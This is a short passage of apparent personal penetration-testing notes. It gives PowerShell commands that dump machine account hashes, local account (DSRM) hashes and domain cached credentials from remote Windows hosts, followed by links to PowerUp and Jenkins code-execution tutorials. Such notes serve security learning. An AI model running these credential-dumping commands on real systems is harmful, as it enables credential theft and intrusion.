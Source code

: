 > > > > > >
> > > > > > **Retrieve machine account hash**
> > > > > >
> > > > > > ```powershell
> > > > > > Get-RemoteMAchineAccountHash -ComputerName <computerName> -Verbose
> > > > > > ```
> > > > > >
> > > > > > ***Retrieve local account hash*** --DSRM password in case DomainControler ComputerName
> > > > > >
> > > > > > ```powershell
> > > > > > Get-RemoteLocalAccountHash -ComputerName <computerNAme> -Verbose
> > > > > > ```
> > > > > >
> > > > > > ***Retrieve domain cached credentials***
> > > > > >
> > > > > > ```powershell
> > > > > > Get-RemoteCachedCredential -ComputerName <computerName> -Verbose 
> > > > > > ```



**Scripts**

> **Powerup Tutorial**
>
> > `https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/`

> **Jenkines**
>
> > RCE Exec in scripts `http://www.labofapenetrationtester.com/2014/06/hacking-jenkins-servers.html`
> >
> > Building Job 
> >
> > `http://www.labofapenetrationtester.com/2014/08/script-execution-and-privilege-esc-jenkins.html`
> >
> > `http://www.labofapenetrationtester.com/2015/11/week-of-continuous-intrusion-day-1.html`

> **DCInternal**
>
> > `https://www.ultimatewindowssecurity.com/blog/default.aspx?d=10/2017` 

![image-20210208002523916](C:\Users\muhammed.bassem\AppData\Roaming\Typora\typora-user-images\image-20210208002523916.png)







